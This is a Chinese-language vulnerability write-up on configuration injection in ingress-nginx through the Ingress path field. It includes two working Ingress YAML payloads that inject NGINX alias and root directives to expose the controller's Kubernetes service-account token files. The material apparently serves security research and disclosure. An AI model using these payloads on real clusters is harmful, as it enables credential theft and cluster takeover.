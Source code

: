   
  
创建 Ingress 资源后，我们可以检查nginx.conf文件中的更改。  
  
  
```
kubectl exec -it <ingress-nginx-controller-pod> -n ingress-nginx -- cat /etc/nginx/nginx.conf | grep gaf -A 20 -B 20
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSSoJzx1XUPCogV9YuoLtjFcB8uYAtMFgR3uQicsrdglqhmBESpGNF81NuyKImDjpd4CLY3MK5LC0A/640?wx_fmt=jpeg "")  
  
  
有多个字段的值被注入到nginx.conf文件中（path, namespace, Ingress name, service name and port)。但它们中的大多数被 DNS 使用，并且仅限于字母数字字符、数字、“-”或“.”。唯一可以包含任何字符的字段是路径。  
  
通过操作路径字段中的值，我们可以关闭配置中的当前位置块，并打开一个新块，可以包含任意我们想输入的内容，即“配置注入”。由于 NGINX 有可以提供静态内容的指令，我们可以使用指令或 Lua 代码来获取ingress-nginx服务帐户令牌。  
  
**alias指令的payload：**  
  
```
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
name: gaf-ingress
annotations:
kubernetes.io/ingress.class: "nginx"
spec:
rules:
- http:
paths:
- path: /gaf{alias /var/run/secrets/kubernetes.io/serviceaccount/;}location ~* ^/aaa
pathType: Prefix
backend:
service:
name: some-service
port:
number: 5678
```  
  
  
  
**root指令的payload：**  
  
```
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
name: gaf-ingress
annotations:
kubernetes.io/ingress.class: "nginx"
spec:
rules:
- http:
paths:
- path: /serviceaccount{root /var/run/secrets/kubernetes.io;}location ~* ^/aaa
pathType: Prefix
backend:
service:
name: some-service
port:
number: 5678
```  
  